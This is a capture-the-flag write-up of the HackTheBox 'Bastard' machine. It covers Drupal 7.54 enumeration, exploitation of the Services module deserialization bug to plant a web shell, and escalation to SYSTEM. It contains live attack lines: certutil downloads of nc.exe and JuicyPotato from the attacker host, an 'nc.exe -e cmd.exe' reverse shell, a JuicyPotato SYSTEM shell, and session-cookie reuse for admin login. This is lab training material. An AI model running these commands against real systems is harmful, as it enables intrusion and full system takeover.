

# HackTheBox : Bastard
This was an intermediate level box with a vulnerability of the Drupal CMS 7.54 with the help of PHP Desearlization. The Windows privesc was very vanilla. I will add some more tips about the privesc part at the end and also a tips from ```IPPsec's``` video of Bastard. I watch his videos after I have solved a box to learn more about it.
To understand more about the Deserialization Vulnerability and then watch the video.

## Information Gathering

### Port scan 

We begin with a nmap scan doing a full tcp port scan

```zsh
nmap -sS -p- -vv 10.10.10.9

Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-06 02:36 EDT
Initiating Ping Scan at 02:36
Scanning 10.10.10.9 [4 ports]
Completed Ping Scan at 02:36, 0.27s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 02:36
Completed Parallel DNS resolution of 1 host. at 02:36, 0.01s elapsed
Initiating SYN Stealth Scan at 02:36
Scanning 10.10.10.9 [65535 ports]
Discovered open port 80/tcp on 10.10.10.9
Discovered open port 135/tcp on 10.10.10.9
Discovered open port 49154/tcp on 10.10.10.9
SYN Stealth Scan Timing: About 4.64% done; ETC: 02:47 (0:10:37 remaining)
SYN Stealth Scan Timing: About 10.99% done; ETC: 02:45 (0:08:14 remaining)
SYN Stealth Scan Timing: About 17.65% done; ETC: 02:45 (0:07:05 remaining)
SYN Stealth Scan Timing: About 25.07% done; ETC: 02:44 (0:06:02 remaining)
SYN Stealth Scan Timing: About 33.90% done; ETC: 02:45 (0:05:35 remaining)
SYN Stealth Scan Timing: About 42.78% done; ETC: 02:44 (0:04:30 remaining)
SYN Stealth Scan Timing: About 51.45% done; ETC: 02:44 (0:03:39 remaining)
SYN Stealth Scan Timing: About 59.26% done; ETC: 02:43 (0:03:00 remaining)
SYN Stealth Scan Timing: About 69.21% done; ETC: 02:43 (0:02:10 remaining)
SYN Stealth Scan Timing: About 78.47% done; ETC: 02:43 (0:01:28 remaining)
SYN Stealth Scan Timing: About 91.32% done; ETC: 02:43 (0:00:33 remaining)
Completed SYN Stealth Scan at 02:42, 382.74s elapsed (65535 total ports)
Nmap scan report for 10.10.10.9
Host is up, received echo-reply ttl 127 (0.24s latency).
Scanned at 2020-05-06 02:36:34 EDT for 383s
Not shown: 65532 filtered ports
Reason: 65532 no-responses
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 127
135/tcp   open  msrpc   syn-ack ttl 127
49154/tcp open  unknown syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 383.27 seconds
           Raw packets sent: 131321 (5.778MB) | Rcvd: 4279 (906.992KB)
```
Scanning with default scripts and trying to find versions of the services.

```zsh
 nmap -sC -sV  -p 80,135,49154 10.10.10.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-07 02:28 EDT
Nmap scan report for 10.10.10.9
Host is up (0.25s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.71 seconds
```
## Enumeration

### Discovery

On learning that the server is running IIS 7.5 which with a quick google search can reveal that it means it is most likely running on ```Windows Server 2008 R2```

**Please note that gobuster doesnot fare well with this box,so I used dirb. Also, I will be running a scanner for this particular cms known as droopescan which also takes hours.**
### Droopescan
```zsh
 droopescan scan drupal -u http://10.10.10.9/

[+] Themes found:                                                               
    seven http://10.10.10.9/themes/seven/
    garland http://10.10.10.9/themes/garland/

[+] Possible interesting urls found:
    Default changelog file - http://10.10.10.9/CHANGELOG.txt
    Default admin - http://10.10.10.9/user/login

[+] Possible version(s):
    7.54

[+] Plugins found:
    ctools http://10.10.10.9/sites/all/modules/ctools/
        http://10.10.10.9/sites/all/modules/ctools/CHANGELOG.txt
        http://10.10.10.9/sites/all/modules/ctools/changelog.txt
        http://10.10.10.9/sites/all/modules/ctools/CHANGELOG.TXT
        http://10.10.10.9/sites/all/modules/ctools/LICENSE.txt
        http://10.10.10.9/sites/all/modules/ctools/API.txt
    libraries http://10.10.10.9/sites/all/modules/libraries/
        http://10.10.10.9/sites/all/modules/libraries/CHANGELOG.txt
        http://10.10.10.9/sites/all/modules/libraries/changelog.txt
        http://10.10.10.9/sites/all/modules/libraries/CHANGELOG.TXT
        http://10.10.10.9/sites/all/modules/libraries/README.txt
        http://10.10.10.9/sites/all/modules/libraries/readme.txt
        http://10.10.10.9/sites/all/modules/libraries/README.TXT
        http://10.10.10.9/sites/all/modules/libraries/LICENSE.txt
    services http://10.10.10.9/sites/all/modules/services/
        http://10.10.10.9/sites/all/modules/services/README.txt
        http://10.10.10.9/sites/all/modules/services/readme.txt
        http://10.10.10.9/sites/all/modules/services/README.TXT
        http://10.10.10.9/sites/all/modules/services/LICENSE.txt
    image http://10.10.10.9/modules/image/
    profile http://10.10.10.9/modules/profile/
    php http://10.10.10.9/modules/php/

[+] Scan finished (2:12:31.863108 elapsed)

```

On visiting the page: *http://10.10.10.9/CHANGELOG.txt*, we come to know that the Drupal version is 7.54. Before we start looking for exploits, just start a dirb scan in the meanwhile.

### Directory Fuzzing

```zsh
 dirb http://10.10.10.9/

DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed May  6 05:08:05 2020
URL_BASE: http://10.10.10.9/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.9/ ----
+ http://10.10.10.9/0 (CODE:200|SIZE:7583)                                                                                                                                
+ http://10.10.10.9/admin (CODE:403|SIZE:1233)                                                                                                                            
+ http://10.10.10.9/Admin (CODE:403|SIZE:1233)                                                                                                                            
+ http://10.10.10.9/ADMIN (CODE:403|SIZE:1233)                                                                                                                            
+ http://10.10.10.9/batch (CODE:403|SIZE:1233)                                                                                                                            
==> DIRECTORY: http://10.10.10.9/includes/                                                                                                                                
+ http://10.10.10.9/index.php (CODE:200|SIZE:7583)                                                                                                                         
+ http://10.10.10.9/install.mysql (CODE:403|SIZE:1233)                                                                                                                     
+ http://10.10.10.9/install.pgsql (CODE:403|SIZE:1233)                                                                                                                     
==> DIRECTORY: http://10.10.10.9/misc/                                                                                                                                     
==> DIRECTORY: http://10.10.10.9/Misc/                                                                                                                                    
==> DIRECTORY: http://10.10.10.9/modules/                                                                                                                                 
+ http://10.10.10.9/node (CODE:200|SIZE:7583)                                                                                                                             
==> DIRECTORY: http://10.10.10.9/profiles/                                                                                                                                
+ http://10.10.10.9/repository (CODE:403|SIZE:1233)                                                                                                                       
+ http://10.10.10.9/rest (CODE:200|SIZE:62)                                                                                                                               
+ http://10.10.10.9/robots.txt (CODE:200|SIZE:2189)                                                                                                                       
+ http://10.10.10.9/root (CODE:403|SIZE:1233)                                                                                                                             
+ http://10.10.10.9/Root (CODE:403|SIZE:1233)                                                                                                                             
==> DIRECTORY: http://10.10.10.9/scripts/                                                                                                                                 
==> DIRECTORY: http://10.10.10.9/Scripts/ 
```
```
http://10.10.10.9/rest (CODE:200|SIZE:62) ``` is an interesting directory which will be used later. If we had not found it then finding the api endpoint would have been a guesswork.
```

I googled for *Drupal 7.54 exploits* and ended up finding this link. Try to read it (recommended):
>https://www.ambionics.io/blog/drupal-services-module-rce

Now after reading this, I used ```searchsploit``` and got the following results
```
searchsploit drupal

Drupal 6.15 - Multiple Persistent Cross-Site Scripting Vulnerabilities                                                            | exploits/php/webapps/11060.txt
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                                                                 | exploits/php/webapps/34992.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)                                                                  | exploits/php/webapps/44355.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)                                                       | exploits/php/webapps/34984.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)                                                       | exploits/php/webapps/34993.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)                                                          | exploits/php/webapps/35150.php
Drupal 7.12 - Multiple Vulnerabilities                                                                                            | exploits/php/webapps/18564.txt
Drupal 7.x Module Services - Remote Code Execution    
```

***Note: There are 2 more valid exploits now as I write the report.Drupalgeddon2 (March 2018) and Drupalgeddon3 (April 2018) were not known when this machine was released in March 2017. So the intended exploit is likely “Drupal 7.x Module Services - Remote Code Execution”.***

Now, we can simply copy the exploit to our working directory by going there and using this:

```zsh
searchsploit -m exploits/php/webapps/41564.php 
```
It might look weird at first while looking at a php exploit but since it is a serialization vulnerability, it makes sense to be written in the language for which it is supposed to be used for.

You have to edit the vulnerability as per our the target. Previously we discovered that the end_point in this case is rest. According here is the edit in the exploit.


Now we added a line so as to send commands and recieve their output. 

*Note: There are 2 places where the comments have been wrapped into the next line, edit it 2 and then it will run. Also remember to install php-curl ``` apt-get install php curl``` if it is missing*

## Exploitation

Run the exploit. You will see the following.

```zsh
php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9//darkt3rr0r.php
```
**By using the session.json data we can use cookie manipulation to login as admin, will discuss that at the end of the document.**

### Command Execution

I tried to access my file which has now been added and accessible. I try to see, if I have command execution so as to get out session back.


As we have command execution now, we will try to have a shell back for that we will be using ```nc.exe``` Please make sure that you have x64 version of the binary as it is 64 bit machine.

### Uploading nc.exe

```zsh
python -m SimpleHTTPServer 80
```
Run this in your work folder location and then your nc.exe will be hosted.

```console
certutil.exe -urlcache -split -f http://10.10.14.9:80/nc.exe nc.exe
```
Type the above command in the place where you had command execution.
```http://10.10.10.9/darkt3rr0r.phpcmd=```
**It is a good habit to save file in %TEMP% , so that executables can run**


### Getting the shell back

Use this nice utility called ```rlwrap``` which gives you the access to use arrow keys to cycle thorugh commands in a remote shell. ```apt-get install rlwrap``` to install rlwrap.

Start a reverse shell along with rlwrap

```zsh 
rlwrap nc -lvnp 443
```
Execute the nc.exe to connect back with the windows shell.
Always try to encode it using URL encoder or Burp encoder. Sometimes browser fails to do so properly and you will not have shell back.

```console
nc.exe 10.10.14.9 443 -e cmd.exe 
```


Now you can check that we are ```nt authority\iusr```


## Privilege Escalation 

As discussed before the machine is indeed running *Microsoft Windows Server 2008* variant.

```cmd
C:\inetpub\drupal-7.54>systeminfo
systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00496-001-0001283-84782
Original Install Date:     18/3/2017, 7:04:46 
System Boot Time:          6/5/2020, 6:31:56
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
[...snip...]
```

```cmd
C:\inetpub\drupal-7.54>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```
As dicussed during my Devel solution, **SeImpersonatePrivilege** if enabled means we can try juicy potato on it. Gather the CSID from this link. I used the second one given.

>https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter


### Upload JuicyPotato Binary

Again make sure you have Juicy potato x64 version downloaded
```cmd
certutil.exe -urlcache -split -f http://10.10.14.9:80/JuicyPotato.exe JuicyPotato.exe 
```
In another terminal start another listener again at 443 or any according to your wish.
In the same iusr shell just run this:

```cmd
JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c C:\inetpub\drupal-7.54\nc.exe -e cmd.exe 10.10.14.9 443" -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```
And then you will see the following. Check your second listener now and you have SYSTEM Privileges !


## Flags

***User Flag***


***Root Flag***



## Extra Analysis from my end and from IPPsec's video

### Different ways of getting an intial shell

As previously discussed that this box could have been exploited by Drupalgeddon2 and Drupalgeddon3.

For the Drupageddon2 there are 2 scripts from searchsploit 44448.py and 44449.rb.
- 44448.py is going to fail because it for Drupal 8 specific path
- 44449.py will be running for you. You can run it via ```ruby 44449.rb```

You can get the updated one from 44449.py from https://github.com/dreadlocked/Drupalgeddon2

### Logging in as admin by using the session.json file

When you run the original exploit used by me, you will get a *session.json* file. Just copy the name and value and make a new cookie using any cookie manager and refresh the page and you will be logged in as admin.


You can now have code execution via this account by going to
**Modules > PHP Filter (enable)**
Click on Add content. Set a basic title and add this small code and check if it can be previewed/


### Alternative to certutil

Start smb share at the folder where you want tranfer should be occuring.
```zsh
python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .
```

Copying from Kali to Windows
```cmd
copy \\10.10.14.9\tools\test.txt
```

Copying from Windows to Kali
```cmd
copy test.txt \\10.10.14.9\tools\test.txt
```

### Alternate Privilege Esclation
MS 15's(MS15 051) MS and 16's. You can also try windows exploit suggester. Refer Optimum's solution of mine. Download it from the list of compiled binaries.Link here
>https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051/Compiled
Download the 64 bit one. Should work as a charm.


Attached all the files needed to do this box.

That's all for this guys. See you next time with 'Granny'.


